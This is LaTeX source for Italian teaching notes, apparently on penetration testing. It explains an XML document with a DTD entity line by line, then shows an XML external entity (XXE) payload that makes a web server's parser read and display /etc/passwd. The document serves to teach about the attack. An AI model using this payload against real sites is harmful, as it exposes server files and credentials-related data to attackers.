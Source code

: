 \documentclass{article}
\begin{document}
\begin{minipage}{0.50\textwidth}
\begin{verbatim}
<?xml version=“1.0” encoding=“ISO-8859-1” ?>
<!DOCTYPE vapt [
	<!ELEMENT vapt ANY>
	<!ENTITY myVariable “Slides go here”>
]>
<vapt>Hello world! Here you can find the slides:
&myVariable;</vapt>
\end{verbatim}
\end{minipage}
\quad\quad
\begin{minipage}{0.45\textwidth}
\begin{enumerate}
	\item Linea 1: La versione di XML utilizzata è 1.0.
	\item Linea 2: Inizia la DTD: l’elemento radice del nostro
	file XML è “vapt”.
	\item Linea 3: L’elemento “vapt” può essere di qualsiasi
	tipo.
	\item Linea 4: L’entità “myVariable” contiene la stringa “Slides go
	here”.
	\item Linea 5: Fine della DTD.
	\item Linee 6-7: Corpo dell’XML. Idealmente \verb|&myVariable| dovrebbe puntare al file con le slide, ma per ora il file XML contiene solo la stringa “Slides go here”
\end{enumerate}
\end{minipage}

La pagina web, dopo	che il parser XML ha analizzato il codice, visualizza: 
\begin{verbatim}
	“Hello World! Here you can find the slides: Slides go here” 
\end{verbatim}

\subsubsection{Esempi di payload}
Consideriamo un sito che permetta upload e visualizzazione di un file XML. L'attaccante, visto il codice XML, decide di volere accedere al filesystem del web server. Egli modifica esclusivamente la riga 4:
\begin{verbatim}
	<?xml version=“1.0” ?>
	<!DOCTYPE vapt [
		<!ELEMENT vapt ANY>
		<!ENTITY myVariable SYSTEM “file:///etc/passwd”>
	]>
	<vapt>Hello world! Here you can find the slides: &myVariable;</vapt>
\end{verbatim}
Ora l'entità \verb|&myVariable| punta a \verb|/etc/passwd|, che viene divulgato nella pagina web. Questa modifica è valida per il parser.
\end{document}
